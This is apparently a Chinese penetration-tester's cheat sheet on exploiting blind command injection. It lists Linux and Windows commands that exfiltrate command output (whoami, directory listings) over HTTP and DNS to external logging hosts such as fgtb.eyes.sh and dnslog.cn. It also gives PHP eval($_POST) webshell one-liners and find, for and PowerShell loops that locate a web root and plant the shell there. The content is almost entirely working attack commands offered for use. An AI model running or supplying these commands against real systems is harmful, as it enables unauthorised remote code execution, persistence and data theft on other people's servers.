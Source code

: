 # 命令结果无回显

- 结果重定向

  > 将文件移动到可访问目录（网站目录，静态 文件目录）
  >

- 外带

  - HTTP协议

    ```shell
    # Linux
    curl http/`cmd`
    
    
    # Windows
    for /F %X in ('whoami') do start http://fgtb.eyes.sh/%X # 用whoami时因为有/，所以不能用dnslog，只能用weblog
    for /F %X in ('cd') do start http://fgtb.eyes.sh/%X
    
    cmd /v /c "whoami > temp && certutil -encode temp temp2 && findstr /L /V "CERTIFICATE" temp2 > temp3 && set /p MYVAR=< temp3 && set FINAL=!MYVAR!.xxx.dnslog.cn && nslookup !FINAL!" # 结果为base64编码的
    ```

  - DNS协议

    [各种环境DNS外带回显命令 | CN-SEC 中文网](https://cn-sec.com/archives/1358515.html)
    
     https://github.com/A0WaQ4/HexDnsEchoT

    
    
    
  

# 不出网写Webshell

- 写webshell

  ```shell
  # Linux
  echo '<?php eval($_POST[1]);?>' > 1.php
  echo "<?php eval(\$_POST[1]);?>" > 1.php  # 双引号包裹需要转义
  
  # Win
  echo ^<?php @eval($_POST[1]);?^> > 1.php  # 使用^来转义
  ```

- 通过静态文件定位web目录并自动写入文件

  ```shell
  # Linux
  find / -name "1.txt" -execdir bash -c 'echo "<?php eval(\$_POST[1]);?>" > phpinfo.php' \;
  
  # Win
  for /f %i in ('dir /s /b note.txt') do (echo %i>path.txt)&(ipconfig > ipconfig.txt)&(systeminfo >systeminfo.txt)&(tasklist > tasklist.txt)
  for /f %i in ('dir /s /b note.txt') do (echo ^<?php @eval($_POST[1]);?^> > phpinfo.php) # 不行
  
  powershell -command "Get-ChildItem -Path './' -Recurse -Filter 'note.txt' | ForEach-Object { New-Item -Path $_.DirectoryName -Name 'phpinfo.php' -ItemType 'file' -Value '<?php @eval($_POST[1]);?>' }"  # 当文件存在时写入会失败，需要修改文件名
  ```
